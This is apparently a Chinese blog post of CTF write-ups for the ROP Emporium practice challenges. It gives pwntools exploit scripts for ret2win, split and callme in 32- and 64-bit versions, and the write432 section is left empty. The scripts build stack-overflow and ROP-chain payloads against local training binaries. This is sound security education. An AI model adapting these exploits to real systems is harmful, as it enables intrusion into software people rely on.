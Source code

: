 ```yaml
---
title: ROP_Emporium
author: nepire
avatar: 'https://wx1.sinaimg.cn/large/006bYVyvgy1ftand2qurdj303c03cdfv.jpg'
authorLink: 'https://nepire.github.io/'
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2019-11-05 11:45:15
tags:
keywords:
description:
photos:
---
```

暑假去了趟Xman认识了一群大佬，也因此受到刺激成长了不少，这里就写一篇在xman时通关的ROP—Emporium的wp来记录一下自己的学习历程





## ret2win32

### 思路

简单的rop构造，ctf-wiki上好像把这种叫做ret2text

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('ret2win32')
elf = ELF('ret2win32')

bufsize = 40
buf = 'a'*bufsize
sh_addr = 0x08048659

payload = buf + 'aaaa' + p32(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## ret2win

### 思路

和上面的方法一样，只有一点差别是在64位下前6个参数是通过寄存器传递，更多的参数才入栈。

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('ret2win')
elf = ELF('ret2win')

bufsize = 0x20
buf = 'a'*bufsize
fake_ebp = 'a'*0x8
sh_addr = 0x400811

payload = buf + fake_ebp + p64(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## split32

### 思路
热身题，很直接的ret2syscall

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./split32')
elf = ELF('./split32')

system_addr = elf.plt['system']
pop_ret = 0x080483e1
sh_addr = 0x804a030
bufsize = 40
buf = 'a'*bufsize

payload = buf + 'aaaa' + p32(system_addr) + 'aaaa' + p32(sh_addr)


def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## split

### 思路
64位的ret2syscall,比如我们想要传入一个参数，那这个参数需要被布置到寄存器rdi中，这时我们可以寻找诸如pop rdi;ret的代码片段，从而在执行完pop rdi后把栈上布置好的数据存放到寄存器rdi中后能够再次控制程序执行流（ret）

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./split')
elf = ELF('./split')

bufsize = 32
buf = 'a'*bufsize
system_addr = elf.plt['system']
pop_rdi_ret = 0x400883
sh_addr = 0x601060

payload = buf + 'a'*8 + p64(pop_rdi_ret) + p64(sh_addr) + p64(system_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme32

### 思路
ret2libc的简单利用，审计过程序和libccallme32.so不难理解要得到flag要依次调用callme_one(1,2,3),callme_two(1,2,3),callme_three(1,2,3),这三个函数都是定义在libccallme32里,所以我们可以像调用system去调用(注意堆栈平衡)

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./callme32')
elf = ELF('./callme32')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x080488a9
bufsize = 0x28
buf = 'a'*bufsize
argv = p32(1)+p32(2)+p32(3)

payload = buf + 'aaaa'
payload += p32(callme_one)+p32(ppp_ret)+argv
payload += p32(callme_two)+p32(ppp_ret)+argv
payload += p32(callme_three)+p32(ppp_ret)+argv

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme

### 思路
和32位差不多，不过不用考虑堆栈平衡(注意64位和32位的差别)

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./callme')
elf = ELF('./callme')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x401ab0
bufsize = 0x20
buf = 'a'*bufsize
argv = p64(1) + p64(2) + p64(3)

payload  = buf + 'a'*8
payload += p64(ppp_ret) + argv + p64(callme_one)
payload += p64(ppp_ret) + argv + p64(callme_two)
payload += p64(ppp_ret) + argv + p64(callme_three)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## write432

### 思路



### exp
```python

```
